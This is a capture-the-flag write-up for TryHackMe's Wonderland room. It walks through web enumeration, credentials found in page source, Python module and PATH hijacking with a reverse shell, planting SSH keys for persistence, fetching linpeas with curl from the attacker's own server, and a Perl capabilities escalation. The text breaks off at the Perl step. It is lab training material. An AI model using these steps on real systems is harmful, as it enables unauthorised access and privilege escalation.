 Writeup for the Wonderland CTF Room on: https://tryhackme.com/

First we start by adding the ip to our /etc/hosts file.
Then we start our enumeration.

### Enumeration

## Nmap

We can see an open HTTP and SSH port.

[![https://imgur.com/jitshko.png](https://imgur.com/jitshko.png)](https://imgur.com/jitshko.png)

## Manual

Lets visit the site manually:
We dont see much.

[![https://imgur.com/11z0aWO.png](https://imgur.com/11z0aWO.png)](https://imgur.com/11z0aWO.png)

## Gobuster

Lets see what gobuster can reveal.

[![https://imgur.com/wFIBJg9.png](https://imgur.com/wFIBJg9.png)](https://imgur.com/wFIBJg9.png)

After checking the endpoints they dont seem to make to much sense to me.

But the /r endpoint tells us to keep going.

[![https://imgur.com/tE3tIbB.png](https://imgur.com/tE3tIbB.png)](https://imgur.com/tE3tIbB.png)

So lets see if we get further with recursive search.

## Dirbuster

[![https://imgur.com/80N9DDR.png](https://imgur.com/80N9DDR.png)](https://imgur.com/80N9DDR.png)

This looks prommising lets check it out.

In the source code we find credentials ! 

[![]](https://media.giphy.com/media/PjplWH49v1FS0/giphy.gif)

### Privilege Escalation

After logging in with SSH we can see the root.txt and a python script both owned by root.

[![https://imgur.com/0Q8Eaqt.png](https://imgur.com/0Q8Eaqt.png)](https://imgur.com/0Q8Eaqt.png)

Since the root flag is in our home directory and the hint says everything is upside down i checked the /root directory and found the user flag.

We can see the other users on the machine:

[![https://imgur.com/i40U4qz.png](https://imgur.com/i40U4qz.png)](https://imgur.com/i40U4qz.png)

We are allowed to run the python script as the user rabbit without password.

[![https://imgur.com/1WhFACr.png](https://imgur.com/1WhFACr.png)](https://imgur.com/1WhFACr.png)

Lets take a closer look at the script:

The short version is:

import random

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

Since there is no absolute path we can create our own random.py and it will be imported and executed here:

So create a file called random.py and paste the code for a python reverseshell inside.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

// Make sure to remove the python -c ' ' 

sudo -u rabbit /usr/bin/python3.6 walrus_and_the_carpenter.py

[![https://imgur.com/21Wo62w.png](https://imgur.com/21Wo62w.png)](https://imgur.com/21Wo62w.png)

And we are the rabbit ! :) 

In the homedirectory i created a pair of ssh keys:

mkdir .ssh
cd .ssh
touch authorized_keys
ssh-keygen
cat id_rsa.pub > authorized_keys

and then copied the id_rsa key to my hostmachine to loginto rabbit with that.

In the home directory of rabbit we have a TeaParty file.
When we cat it, we can see a lot of unreadable stuff but some lines are showing.

[![https://imgur.com/6BzJE3a.png](https://imgur.com/6BzJE3a.png)](https://imgur.com/6BzJE3a.png)

So the script uses date.

Lets repeat the process we had before with a bashscript to escalate.

[![https://imgur.com/uUxT0tg.png](https://imgur.com/uUxT0tg.png)](https://imgur.com/uUxT0tg.png)

We made it to hutter! 

[![https://imgur.com/UjpfCOj.png](https://imgur.com/UjpfCOj.png)](https://imgur.com/UjpfCOj.png)

At this point i will just run linpeas.
Download it from here on your Host: 

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

In the same directory set up a http server with python:

Python3 -m http.server 1337

On your target go in the /tmp directory:

curl http://yourip:ip/linpeas.sh


There is a interisting capability set on perl:

[![https://imgur.com/68H4nts.png](https://imgur.com/68H4nts.png)](https://imgur.com/68H4nts.png)

Alternativly we could have also found it like this:

[![https://imgur.com/khkwlxr.png](https://imgur.com/khkwlxr.png)](https://imgur.com/khkwlxr.png)

When we check on GTFOBins on perl capabilities:

[![https://imgur.com/L8aSgEu.png](https://imgur.com/L8aSgEu.png)](https://imgur.com/L8aSgEu.png)

I tried this didn't work.
we don't have permission to use perl. 

Lets find a way to bypass that!

When we look at the manpage of capabilities.

https://man7.org/linux/man-pages/man7/capabilities.7.html

We can see that we can use it to change the suid.

[![https://imgur.com/HdwcoFW.png](https://imgur.com/HdwcoFW.png)](https://imgur.com/HdwcoFW.png)

Looks like we can run perl as hatter

[![https://imgur.com/k8pJYiL.png](https://imgur.com/k8pJYiL.png)](https://imgur.com/k8pJYiL.png)

